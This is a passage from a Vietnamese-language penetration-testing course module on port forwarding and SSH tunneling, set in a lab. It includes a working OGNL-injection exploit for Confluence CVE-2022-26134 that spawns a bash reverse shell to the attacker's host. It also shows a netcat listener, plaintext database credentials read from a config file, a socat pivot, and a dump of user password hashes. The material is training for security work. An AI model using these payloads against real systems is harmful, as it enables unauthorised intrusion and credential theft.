

# Port Redirection and SSH Tunneling

# Chuyển hướng cổng và SSH Tunneling

---

Trong **Learning Module** này, chúng ta sẽ đề cập đến các **Learning Unit** sau:

- **Port Forwarding** trên các máy *NIX và Windows
- **SSH Tunneling** trên (và giữa) các máy *NIX và Windows

---

# 1. Tại sao cần chuyển hướng cổng và tunneling?

---

**Learning Unit** này bao gồm các **Learning Objectives** sau:

- Hiểu sự khác nhau giữa các bố cục mạng phổ biến
- Cân nhắc tác động của các thiết bị bảo mật mạng phổ biến
- Hiểu khi nào nên sử dụng các kỹ thuật chuyển hướng cổng và tunneling

Hầu hết các môi trường mạng không phải (và không nên) phẳng. Trong một mạng phẳng, tất cả các thiết bị có thể giao tiếp tự do với nhau. Gần như không có (hoặc không có) nỗ lực nào nhằm hạn chế quyền truy cập mà mỗi thiết bị có đối với các thiết bị khác trong cùng một mạng, bất kể các thiết bị đó có cần giao tiếp trong quá trình vận hành bình thường hay không.

Topology mạng phẳng thường được xem là một thực hành bảo mật kém. Khi một kẻ tấn công có quyền truy cập vào một host duy nhất, họ có thể bắt đầu giao tiếp với mọi host khác. Từ đó, việc lan rộng trong mạng và bắt đầu xâm nhập các host khác sẽ dễ dàng hơn nhiều.

Một loại mạng được thiết kế an toàn hơn là mạng phân đoạn. Loại mạng này sẽ được chia thành các mạng nhỏ hơn, mỗi mạng được gọi là một subnet. Mỗi subnet sẽ chứa một nhóm thiết bị có một mục đích cụ thể, và các thiết bị trên subnet đó chỉ được cấp quyền truy cập đến các subnet và host khác khi thật sự cần thiết. Phân đoạn mạng hạn chế kẻ tấn công một cách nghiêm ngặt, bởi vì việc xâm nhập một host duy nhất không còn đồng nghĩa với việc họ có quyền truy cập tự do đến mọi thiết bị khác trên mạng.

Là một phần của quá trình phân đoạn mạng, hầu hết các quản trị viên mạng cũng sẽ triển khai các biện pháp kiểm soát nhằm hạn chế luồng lưu lượng đi vào, đi ra khỏi và đi ngang qua các mạng của họ. Để thực thi điều này, họ sẽ triển khai nhiều công nghệ khác nhau xuyên suốt toàn bộ mạng.

Một trong những công nghệ phổ biến nhất được dùng cho việc này là firewall. Firewall có thể được triển khai ở mức phần mềm trên endpoint. Ví dụ, nhân Linux có khả năng firewall có thể được cấu hình bằng bộ công cụ iptables, trong khi Windows cung cấp Windows Defender Firewall tích hợp sẵn. Firewall cũng có thể được triển khai như một tính năng trong một thiết bị hạ tầng mạng vật lý. Quản trị viên thậm chí có thể đặt một firewall phần cứng độc lập trong mạng, lọc toàn bộ lưu lượng.

Firewall có thể loại bỏ các gói inbound không mong muốn và ngăn lưu lượng có khả năng độc hại đi xuyên qua hoặc rời khỏi mạng. Firewall có thể ngăn tất cả trừ một vài host được phép giao tiếp với một cổng trên một máy chủ đặc quyền cao. Chúng cũng có thể chặn một số host hoặc subnet truy cập ra Internet rộng hơn.

Hầu hết firewall có xu hướng cho phép hoặc chặn lưu lượng theo một tập luật dựa trên địa chỉ IP và số cổng, nên chức năng của chúng bị giới hạn. Tuy nhiên, đôi khi cần kiểm soát chi tiết hơn. Deep Packet Inspection giám sát nội dung của lưu lượng đi vào và đi ra và chấm dứt nó dựa trên một tập luật.

Các ranh giới được thiết lập bởi quản trị viên mạng được thiết kế để ngăn sự di chuyển tùy tiện của dữ liệu đi vào, đi ra khỏi và đi ngang qua mạng. Nhưng, với vai trò là một kẻ tấn công, đây chính là những ranh giới mà chúng ta cần vượt qua. Chúng ta sẽ cần phát triển các chiến lược có thể giúp chúng ta làm việc xung quanh các hạn chế mạng khi gặp chúng.

Chuyển hướng cổng (một thuật ngữ chúng ta sử dụng để mô tả nhiều loại port forwarding khác nhau) và tunneling đều là các chiến lược mà chúng ta có thể sử dụng để vượt qua các ranh giới này. Chuyển hướng cổng có nghĩa là sửa đổi luồng dữ liệu sao cho các gói được gửi đến một socket sẽ được lấy và chuyển tiếp sang một socket khác. Tunneling có nghĩa là đóng gói một loại luồng dữ liệu bên trong một loại khác, ví dụ, vận chuyển lưu lượng Hypertext Transfer Protocol (HTTP) bên trong một kết nối Secure Shell (SSH) (vì vậy từ góc nhìn bên ngoài, chỉ lưu lượng SSH sẽ có thể nhìn thấy).

Trong Module này, chúng ta sẽ giới thiệu các kỹ thuật chuyển hướng cổng và tunneling thông qua các ví dụ thực hành. Chúng ta sẽ bắt đầu một cách nhẹ nhàng bằng các kỹ thuật có độ phức tạp thấp nhất, và tăng dần độ phức tạp khi chúng ta tiến từng bước một đến các môi trường mạng được gia cố hơn. Tunneling duy nhất mà chúng ta đề cập trong Module cụ thể này là SSH tunneling, nhưng chúng ta sẽ đề cập các phương pháp nâng cao hơn trong một Module sau.

Các logical topology mà chúng ta tạo ra khi xâu chuỗi các chiến lược này có thể sẽ khó tiếp thu lúc đầu. Chúng ta sẽ làm cho lưu lượng di chuyển theo những cách có thể không trực quan ban đầu. Chúng ta nên dành thời gian để hiểu đầy đủ từng kỹ thuật trước khi chuyển sang kỹ thuật tiếp theo. Đến cuối Module này, chúng ta sẽ có tất cả các công cụ cần thiết để thao túng luồng lưu lượng trong bất kỳ mạng nào với độ chính xác như phẫu thuật.

---

# 2. Port Forwarding với các công cụ Linux

---

**Learning Unit** này bao gồm các **Learning Objectives** sau:

- Hiểu port forwarding là gì
- Học khi nào nên sử dụng các kỹ thuật port forwarding
- Sử dụng **Socat** để thiết lập port forward trên Linux

Port forwarding là kỹ thuật nền tảng nhất mà chúng ta sẽ xem xét trong Module này. Đây cũng là một kỹ thuật rất phổ biến trong mạng máy tính mục đích chung. Khi thực hiện port forwarding, chúng ta cấu hình một host lắng nghe trên một cổng và chuyển tiếp toàn bộ các gói tin nhận được trên cổng đó đến một đích khác.

Trong các điều kiện mạng thông thường, một quản trị viên mạng có thể tạo một port forward để cho phép truy cập đến một web server nằm phía sau firewall. Trong trường hợp đó, họ sẽ cấu hình firewall lắng nghe trên một cổng nhất định ở một interface, và chuyển toàn bộ các gói tin đến web server nằm phía sau nó.

Nhiều router gia đình cũng cung cấp chức năng port forwarding. Các router này có thể được cấu hình để lắng nghe trên một cổng ở phía Internet của router, sau đó chuyển tiếp các kết nối từ cổng đó đến một thiết bị khác bên trong mạng gia đình.

Nhưng chúng ta có thể sử dụng port forwarding như thế nào trong một chuỗi tấn công? Trong phần tiếp theo, chúng ta sẽ xem xét một kịch bản đơn giản.

---

## 2.1. Một kịch bản Port Forwarding đơn giản

---

Hãy xem xét một kịch bản port forwarding. Trong quá trình đánh giá, chúng ta phát hiện một web server Linux đang chạy một phiên bản Confluence dễ bị tấn công bởi CVE-2022-26134: một lỗ hổng thực thi mã từ xa trước xác thực. Chúng ta có thể khai thác lỗ hổng này và giành được một reverse shell từ máy chủ.

Trong quá trình enumeration, chúng ta phát hiện máy chủ này có hai network interface: một interface gắn với cùng mạng mà máy Kali của chúng ta cũng đang kết nối (điều này cho phép chúng ta định tuyến trực tiếp đến nó), và một interface khác nằm trên một subnet nội bộ. Trong file cấu hình của Confluence, chúng ta cũng tìm thấy thông tin xác thực cùng với địa chỉ IP và cổng của một instance cơ sở dữ liệu PostgreSQL trên một máy chủ trong subnet nội bộ đó. Chúng ta muốn sử dụng các thông tin xác thực này để truy cập vào cơ sở dữ liệu và tiếp tục enumeration.

Sơ đồ bên dưới cho thấy bố cục mạng, theo như những gì chúng ta hiểu ở thời điểm hiện tại.



                           *Hình 1: Bố cục mạng từ góc nhìn của chúng ta cho đến thời điểm này*

Một trong những điều đầu tiên cần chú ý trong sơ đồ này là có hai mạng được đặt tên: Wide Area Network (WAN) ở bên trái và Demilitarized Zone (DMZ) ở bên phải. Máy Kali của chúng ta nằm trong WAN, máy chủ cơ sở dữ liệu PostgreSQL PGDATABASE01 nằm trong DMZ, và máy chủ Confluence CONFLUENCE01 nằm giữa cả hai mạng này.

WAN là một mạng có quy mô lớn và phạm vi rộng. Một số người gọi Internet công cộng là WAN lớn nhất thế giới, và một số tổ chức lớn cũng gọi mạng nội bộ quy mô lớn của họ là WAN, hoặc internal WAN. Trong trường hợp này, vì chúng ta đang mô phỏng một cuộc tấn công từ mạng bên ngoài, WAN đại diện cho một mạng nội bộ doanh nghiệp lớn, hoặc chính Internet.

*Trong suốt các bài thực hành của Module này, máy Kali của chúng ta sẽ được đặt trong WAN. Chúng ta chỉ có thể định tuyến trực tiếp từ máy Kali đến các host cũng nằm trong WAN.*

DMZ là một mạng chứa các thiết bị có thể bị phơi bày nhiều hơn trước một mạng rộng lớn và kém tin cậy hơn. DMZ giúp tạo ra một vùng đệm giữa các host trên mạng rộng, kém tin cậy và các host nội bộ. Theo cách này, nó phục vụ một chức năng tương tự như một khu phi quân sự trong thế giới thực. Trong kịch bản này, DMZ là phân đoạn mạng đệm giữa WAN và bất kỳ mạng nội bộ nào khác mà chúng ta có thể phát hiện.

CONFLUENCE01 nằm giữa cả WAN và DMZ để minh họa rằng nó có thể giao tiếp trên cả hai mạng. CONFLUENCE01 cũng đang lắng nghe trên cổng TCP 8090, được minh họa bằng “open socket” gắn với biểu tượng của nó.

PGDATABASE01 nằm hoàn toàn trong ranh giới mạng DMZ - nó không kết nối sang WAN. Máy Kali của chúng ta không nằm trong DMZ, vì vậy chúng ta không thể định tuyến trực tiếp đến PGDATABASE01. PGDATABASE01 cũng có một “open socket” gắn với nó, minh họa rằng có một dịch vụ đang lắng nghe trên cổng TCP 5432 (nhiều khả năng là một PostgreSQL server, vì cổng mặc định là 5432).

*Vì thứ duy nhất chúng ta biết về PGDATABASE01 ở thời điểm này là sự tồn tại của nó, nên chúng ta chưa biết liệu nó có kết nối với các mạng khác hay không. Nếu sau này chúng ta phát hiện PGDATABASE01 được gắn với các mạng khác, chúng ta sẽ mở rộng sơ đồ mạng của mình.*

Với các thông tin xác thực tìm được trên CONFLUENCE01, chúng ta muốn thử kết nối đến cổng PostgreSQL trên PGDATABASE01 từ máy Kali.

Trước khi đi vào chi tiết hơn, hãy thiết lập môi trường lab để tái tạo kịch bản mà chúng ta vừa mô tả.

*Ở cuối phần **Port Forwarding với Socat** của Learning Unit này, một nhóm các máy ảo (VM) được cung cấp để có thể sử dụng theo dõi các phần tiếp theo. Các VM này được cung cấp nhằm giúp bạn có trải nghiệm thực hành trực tiếp với tất cả các kỹ thuật mà chúng ta đề cập. Bạn có thể khởi động nhóm VM tại bất kỳ thời điểm nào và theo dõi theo tốc độ mà bạn cảm thấy thoải mái.*

---

## 2.2. Thiết lập môi trường Lab

---

Để truy cập vào CONFLUENCE01, chúng ta cần khai thác lỗ hổng thực thi lệnh trong ứng dụng web Confluence để có được một reverse shell. Sau khi xác định rằng ứng dụng web Confluence dễ bị tấn công bởi CVE-2022-26134, chúng ta sẽ tìm thấy một bài viết blog từ Rapid7 có chứa một lệnh cURL bao gồm một payload proof-of-concept, được cho là khai thác lỗ hổng này và trả về một reverse shell.

```bash
curl -v http://10.0.0.28:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/10.0.0.28/1270%200%3E%261%27%29.start%28%29%22%29%7D/
```

                                       *Listing 1 - Payload ví dụ từ bài viết blog của Rapid7.*

Chúng ta không chạy payload khi chưa hiểu chính xác nó thực hiện điều gì, vì vậy trước tiên cần phân tích xem điều gì đang xảy ra trong proof-of-concept này.

Yêu cầu curl ở chế độ verbose (-v) được gửi tới http://10.0.0.28:8090, mà chúng ta giả định là máy chủ Confluence dễ bị tấn công của tác giả bài blog. Sau đó, phần URL path trở nên đáng chú ý hơn. Chúng ta nhận thấy rằng rất nhiều ký tự trong đó đã được URL encode, vì vậy cần URL decode chúng để hiểu rõ hơn payload thực sự làm gì.

*Bạn có thể nhanh chóng URL decode chuỗi bằng cách chọn **Decode As... > URL** trong tab Decoder của Burp, hoặc sử dụng một công cụ trực tuyến như CyberChef. Nếu đang làm việc với thông tin nhạy cảm trong môi trường doanh nghiệp thực tế, bạn nên tránh dán dữ liệu vào các công cụ trực tuyến. Tuy nhiên, trong trường hợp này, chúng ta đang giải mã một proof-of-concept đã được công bố công khai, nên có thể sử dụng các công cụ trực tuyến nếu cần.*

Sau khi URL decode phần path, chức năng của payload trở nên rõ ràng hơn.

```
/${new javax.script.ScriptEngineManager().getEngineByName("nashorn").eval("new java.lang.ProcessBuilder().command('bash','-c','bash -i >& /dev/tcp/10.0.0.28/1270 0>&1').start()")}/
```

                                                  *Listing 2 - Payload ví dụ sau khi URL decode.*

URL path là một payload OGNL injection. OGNL là Object-Graph Notation Language, một ngôn ngữ biểu thức thường được sử dụng trong các ứng dụng Java. OGNL injection có thể xảy ra khi một ứng dụng xử lý input của người dùng theo cách khiến nó được chuyển đến trình phân tích biểu thức OGNL. Vì có thể thực thi mã Java bên trong các biểu thức OGNL, OGNL injection có thể được sử dụng để thực thi mã tùy ý.

Bản thân payload OGNL injection sử dụng lớp ProcessBuilder của Java để sinh ra một Bash interactive reverse shell (bash -i).

Payload proof-of-concept này gần như hoàn hảo cho nhu cầu của chúng ta. Tuy nhiên, chúng ta cần chỉnh sửa nó trước khi có thể sử dụng. Điều này là vì hai lý do. Thứ nhất, máy chủ Confluence mà payload gốc trỏ đến không phải là máy chủ Confluence dễ bị tấn công của chúng ta. Thứ hai, payload reverse shell Bash đang trỏ đến cổng 1270 trên 10.0.0.28, trong khi đó không phải là máy Kali của chúng ta. Chúng ta cần chỉnh sửa các tham số này trong payload trước khi có thể tái sử dụng nó để khai thác CONFLUENCE01 và trả shell về máy Kali của mình.

Trong khi thực hiện các chỉnh sửa này, chúng ta cũng cần lưu ý đến việc URL encoding. Chuỗi payload trong proof-of-concept không được URL encode hoàn toàn. Một số ký tự (đáng chú ý là ".", "-" và "/") không bị encode. Mặc dù điều này không phải lúc nào cũng đúng, nhưng với exploit cụ thể này, điều đó hóa ra lại quan trọng đối với hoạt động của payload. Nếu bất kỳ ký tự nào trong số này bị encode, máy chủ sẽ phân tích URL theo cách khác và payload có thể không được thực thi. Điều này có nghĩa là chúng ta không thể URL encode toàn bộ payload sau khi đã chỉnh sửa.

Ghi nhớ điều này, chúng ta sẽ chỉnh sửa thủ công các tham số cần thiết, sử dụng payload proof-of-concept gốc làm nền. Chúng ta có thể thay đổi IP máy chủ Confluence thành 192.168.50.63, và IP cùng cổng của payload Bash interactive shell thành một listener mà chúng ta sẽ mở trên máy Kali (/dev/tcp/192.168.118.4/4444). Chúng ta cũng sẽ loại bỏ cờ verbose của curl. Điều này cho chúng ta payload đã chỉnh sửa sau:

```
curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.118.4/4444%200%3E%261%27%29.start%28%29%22%29%7D/
```

                                                    *Listing 3 - Payload đã được chỉnh sửa.*

Bây giờ payload đã được tùy chỉnh cho mục đích sử dụng của chúng ta, chúng ta có thể khởi chạy một Netcat listener trên máy Kali ở cổng TCP 4444.

```
kali@kali:~$ nc -nvlp 4444
listening on [any] 4444 ...
```

                           *Listing 4 - Khởi động Netcat listener trên cổng 4444 trên máy Kali.*

Khi listener đang chạy, chúng ta mở một shell khác trên máy Kali, sau đó chạy lệnh curl mà chúng ta vừa xây dựng.

```
kali@kali:~$ curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.118.4/4444%200%3E%261%27%29.start%28%29%22%29%7D/

kali@kali:~$ 
```

                                     *Listing 5 - Thực thi payload reverse shell đã chỉnh sửa.*

Bản thân lệnh không trả về kết quả gì, nhưng reverse shell đã được listener của chúng ta bắt được.

```
...
listening on [any] 4444 ...
connect to [192.168.118.4] from (UNKNOWN) [192.168.50.63] 55876
bash: cannot set terminal process group (813): Inappropriate ioctl for device
bash: no job control in this shell
confluence@confluence01:/opt/atlassian/confluence/bin$ id
id
uid=1001(confluence) gid=1001(confluence) groups=1001(confluence)
```

        *Listing 6 - Bash reverse shell được bắt bởi Netcat listener và được xác nhận bằng lệnh id.*

Lệnh id xác nhận rằng shell này đang chạy với quyền của user confluence. User này có quyền hạn khá hạn chế. Tuy nhiên, dù sao chúng ta cũng đã có được một reverse shell từ CONFLUENCE01 về máy Kali.

Giờ đây chúng ta có thể bắt đầu một chút enumeration trên CONFLUENCE01 bằng shell mới này. Chúng ta sẽ kiểm tra các network interface bằng lệnh ip addr.

```
confluence@confluence01:/opt/atlassian/confluence/bin$ ip addr
ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens192: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:50:56:8a:54:46 brd ff:ff:ff:ff:ff:ff
    inet 192.168.50.63/24 brd 192.168.50.255 scope global ens192
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:fe8a:5446/64 scope link 
       valid_lft forever preferred_lft forever
3: ens224: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:50:56:8a:c2:c9 brd ff:ff:ff:ff:ff:ff
    inet 10.4.50.63/24 brd 10.4.50.255 scope global ens224
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:fe8a:c2c9/64 scope link 
       valid_lft forever preferred_lft forever
```

                           *Listing 7 - Enumeration các network interface trên CONFLUENCE01.*

Kết quả cho thấy CONFLUENCE01 có hai network interface: ens192 và ens224. ens192 có địa chỉ IP 192.168.50.63, và ens224 có địa chỉ IP 10.4.50.63. Sau đó chúng ta có thể kiểm tra các route bằng lệnh ip route.

```
confluence@confluence01:/opt/atlassian/confluence/bin$ ip route
ip route
default via 192.168.50.254 dev ens192 proto static 
10.4.50.0/24 dev ens224 proto kernel scope link src 10.4.50.63 
10.4.50.0/24 via 10.4.50.254 dev ens224 proto static
192.168.50.0/24 dev ens192 proto kernel scope link src 192.168.50.63
```

                                        *Listing 8 - Enumeration các route trên CONFLUENCE01.*

Lệnh này cho thấy chúng ta có thể truy cập các host trong subnet 192.168.50.0/24 thông qua interface ens192, và các host trong subnet 10.4.50.0/24 thông qua interface ens224.

Tiếp tục enumeration, chúng ta tìm thấy file cấu hình Confluence tại `/var/atlassian/application-data/confluence/confluence.cfg.xml`. Khi đọc nội dung của file bằng cat, chúng ta phát hiện một số thông tin xác thực cơ sở dữ liệu dạng plaintext nằm bên trong.

```
confluence@confluence01:/opt/atlassian/confluence/bin$ cat /var/atlassian/application-data/confluence/confluence.cfg.xml
<sian/application-data/confluence/confluence.cfg.xml   
<?xml version="1.0" encoding="UTF-8"?>

<confluence-configuration>
  <setupStep>complete</setupStep>
  <setupType>custom</setupType>
  <buildNumber>8703</buildNumber>
  <properties>
...
    <property name="hibernate.connection.password">D@t4basePassw0rd!</property>
    <property name="hibernate.connection.url">jdbc:postgresql://10.4.50.215:5432/confluence</property>
    <property name="hibernate.connection.username">postgres</property>
...
  </properties>
</confluence-configuration>
confluence@confluence01:/opt/atlassian/confluence/bin$ 
```

*Listing 9 - Các thông tin xác thực được tìm thấy trong file confluence.cfg.xml trên CONFLUENCE01.*

Chúng ta sẽ tìm được địa chỉ IP của máy chủ cơ sở dữ liệu, cũng như username và password dạng plaintext được sử dụng để kết nối đến nó. Chúng ta có thể sử dụng các thông tin xác thực này để xác thực vào cơ sở dữ liệu và tiếp tục enumeration.

Tuy nhiên, chúng ta đã gặp phải một giới hạn. CONFLUENCE01 không cài đặt PostgreSQL client. Vì chúng ta đang chạy với user confluence có quyền thấp, chúng ta cũng không thể dễ dàng cài đặt phần mềm.

Chúng ta có PostgreSQL client psql được cài trên máy Kali, nhưng chúng ta không thể kết nối trực tiếp đến PGDATABASE01 từ máy Kali, vì nó chỉ có thể định tuyến được từ CONFLUENCE01.

Trong kịch bản này, không có firewall nào được đặt giữa máy Kali và CONFLUENCE01, nghĩa là không có gì ngăn cản chúng ta bind các cổng trên WAN interface của CONFLUENCE01 và kết nối đến chúng từ máy Kali.

Đây chính xác là loại tình huống mà port forwarding có thể phát huy tác dụng. Chúng ta có thể tạo một port forward trên CONFLUENCE01, lắng nghe trên một cổng ở interface WAN, sau đó chuyển tiếp toàn bộ các gói nhận được trên cổng đó đến PGDATABASE01 trên subnet nội bộ. Trong phần tiếp theo, chúng ta sẽ sử dụng Socat để thực hiện điều này.

---

## 2.3. Port Forwarding với Socat

---

Bây giờ chúng ta đã sẵn sàng để tạo một port forward. Chúng ta đã có ý tưởng về cách chúng ta muốn nó hoạt động: CONFLUENCE01 sẽ lắng nghe trên một cổng ở WAN interface và chuyển tiếp toàn bộ các gói tin nhận được trên cổng này đến PGDATABASE01 trên subnet nội bộ. Khái niệm này được minh họa trong sơ đồ sau:


                                       *Hình 2: Cách chúng ta kỳ vọng port forward sẽ hoạt động*

Chúng ta muốn mở cổng TCP 2345 trên WAN interface của CONFLUENCE01, sau đó kết nối đến cổng đó từ máy Kali. Chúng ta muốn toàn bộ các gói tin mà chúng ta gửi đến cổng này được CONFLUENCE01 chuyển tiếp đến cổng TCP 5432 trên PGDATABASE01. Khi đã thiết lập port forward, kết nối đến cổng TCP 2345 trên CONFLUENCE01 sẽ giống hệt như việc kết nối trực tiếp đến cổng TCP 5432 trên PGDATABASE01.

Là một phần của quá trình enumeration CONFLUENCE01, chúng ta sẽ thấy Socat đã được cài đặt. Socat là một công cụ mạng mục đích chung có thể thiết lập một port forward đơn giản chỉ với một lệnh.

*Trong kịch bản này, chúng ta thấy nó đã được cài sẵn, nhưng Socat thường không được cài theo mặc định trên các hệ thống *NIX. Nếu chưa được cài sẵn, có thể tải về và chạy một bản binary liên kết tĩnh (statically-linked) thay thế.*

Chúng ta sẽ dùng Socat để thiết lập port forward mà chúng ta muốn trên CONFLUENCE01. Nó sẽ lắng nghe trên một cổng ở WAN interface (để máy Kali có thể kết nối) và chuyển tiếp các gói tin nhận được trên cổng đó đến PGDATABASE01.

Trên CONFLUENCE01, chúng ta sẽ chạy một tiến trình Socat verbose (-ddd). Nó sẽ lắng nghe trên cổng TCP 2345 (TCP-LISTEN:2345), fork ra một subprocess mới khi nhận được một kết nối (fork) thay vì chết sau một kết nối duy nhất, và sau đó chuyển tiếp toàn bộ lưu lượng mà nó nhận được đến cổng TCP 5432 trên PGDATABASE01 (TCP:10.4.50.215:5432).

*Chúng ta sẽ lắng nghe trên cổng 2345 vì nó không nằm trong dải cổng đặc quyền (0-1024), nghĩa là chúng ta không cần quyền nâng cao để sử dụng nó.*

```
confluence@confluence01:/opt/atlassian/confluence/bin$ socat -ddd TCP-LISTEN:2345,fork TCP:10.4.50.215:5432
<ocat -ddd TCP-LISTEN:2345,fork TCP:10.4.50.215:5432   
2022/08/18 10:12:01 socat[46589] I socat by Gerhard Rieger and contributors - see www.dest-unreach.org
2022/08/18 10:12:01 socat[46589] I This product includes software developed by the OpenSSL Project for use in the OpenSSL Toolkit. (http://www.openssl.org/)
2022/08/18 10:12:01 socat[46589] I This product includes software written by Tim Hudson (tjh@cryptsoft.com)
2022/08/18 10:12:01 socat[46589] I setting option "fork" to 1
2022/08/18 10:12:01 socat[46589] I socket(2, 1, 6) -> 5
2022/08/18 10:12:01 socat[46589] I starting accept loop
2022/08/18 10:12:01 socat[46589] N listening on AF=2 0.0.0.0:2345
```

                                                  *Listing 10 - Chạy lệnh Socat port forward.*

Mạng giờ được thiết lập như sơ đồ sau:


                *Hình 3: Socat được đặt vào vị trí như bộ chuyển tiếp port forward của chúng ta*

Khi tiến trình Socat đang chạy, chúng ta có thể chạy psql trên máy Kali, chỉ định rằng chúng ta muốn kết nối đến CONFLUENCE01 (-h 192.168.50.63) trên cổng 2345 (-p 2345) với tài khoản postgres (-U postgres). Khi được hỏi, chúng ta sẽ nhập mật khẩu, và khi đã kết nối, chúng ta có thể chạy lệnh \l để liệt kê các cơ sở dữ liệu khả dụng.

```
kali@kali:~$ psql -h 192.168.50.63 -p 2345 -U postgres
Password for user postgres: 
psql (14.2 (Debian 14.2-1+b3), server 12.11 (Ubuntu 12.11-0ubuntu0.20.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

postgres=# \l
                                  List of databases
    Name    |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges   
------------+----------+----------+-------------+-------------+-----------------------
 confluence | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 postgres   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 template0  | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
            |          |          |             |             | postgres=CTc/postgres
 template1  | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
            |          |          |             |             | postgres=CTc/postgres
(4 rows)
```

*Listing 11 - Kết nối đến dịch vụ PostgreSQL trên PGDATABASE01 và liệt kê database bằng psql, thông qua port forward của chúng ta.*

Thành công! Chúng ta đã kết nối đến cơ sở dữ liệu PostgreSQL thông qua port forward. Chúng ta cũng sẽ thấy rằng chúng ta có quyền truy cập vào database confluence.

Với quyền truy cập database mới, chúng ta có thể tiếp tục enumeration. Trong database confluence, hãy truy vấn bảng cwd_user. Bảng này chứa username và password hash của tất cả người dùng Confluence. Chúng ta sẽ kết nối đến database bằng lệnh \c confluence, sau đó chạy select * from cwd_user; để xem toàn bộ dữ liệu trong bảng đó.

```
postgres=# \c confluence
psql (14.2 (Debian 14.2-1+b3), server 12.11 (Ubuntu 12.11-0ubuntu0.20.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
You are now connected to database "confluence" as user "postgres".

confluence=# select * from cwd_user;

   id    |   user_name    | lower_user_name | active |      created_date       |      updated_date       | first_name | lower_first_name |   last_name   | lower_last_name |      display_name      |   lower_display_name   |           email_address            |        lower_email_address         |             external_id              | directory_id |                                credential                                 
---------+----------------+-----------------+--------+-------------------------+-------------------------+------------+------------------+---------------+-----------------+------------------------+------------------------+------------------------------------+------------------------------------+--------------------------------------+--------------+---------------------------------------------------------------------------
  458753 | admin          | admin           | T      | 2022-08-17 15:51:40.803 | 2022-08-17 15:51:40.803 | Alice      | alice            | Admin         | admin           | Alice Admin            | alice admin            | alice@industries.internal          | alice@industries.internal          | c2ec8ebf-46d9-4f5f-aae6-5af7efadb71c |       327681 | {PKCS5S2}WbziI52BKm4DGqhD1/mCYXPl06IAwV7MG7UdZrzUqDG8ZSu15/wyt3XcVSOBo6bC
 1212418 | trouble        | trouble         | T      | 2022-08-18 10:31:48.422 | 2022-08-18 10:31:48.422 |            |                  | Trouble       | trouble         | Trouble                | trouble                | trouble@industries.internal        | trouble@industries.internal        | 164eb9b5-b6ef-4c0f-be76-95d19987d36f |       327681 | {PKCS5S2}A+U22DLqNsq28a34BzbiNxzEvqJ+vBFdiouyQg/KXkjK0Yd9jdfFavbhcfZG1rHE
 1212419 | happiness      | happiness       | T      | 2022-08-18 10:33:49.058 | 2022-08-18 10:33:49.058 |            |                  | Happiness     | happiness       | Happiness              | happiness              | happiness@industries.internal      | happiness@industries.internal      | b842163d-6ff5-4858-bf54-92a8f5b28251 |       327681 | {PKCS5S2}R7/ABMLgNl/FZr7vvUlCPfeCup9dpg5rplddR6NJq8cZ8Nqq+YAQaHEauk/HTP49
 1212417 | database_admin | database_admin  | T      | 2022-08-18 10:24:34.429 | 2022-08-18 10:24:34.429 | Database   | database         | Admin Account | admin account   | Database Admin Account | database admin account | database_admin@industries.internal | database_admin@industries.internal | 34901af8-b2af-4c98-ad1d-f1e7ed1e52de |       327681 | {PKCS5S2}QkXnkmaBicpsp0B58Ib9W5NDFL+1UXgOmJIvwKjg5gFjXMvfeJ3qkWksU3XazzK0
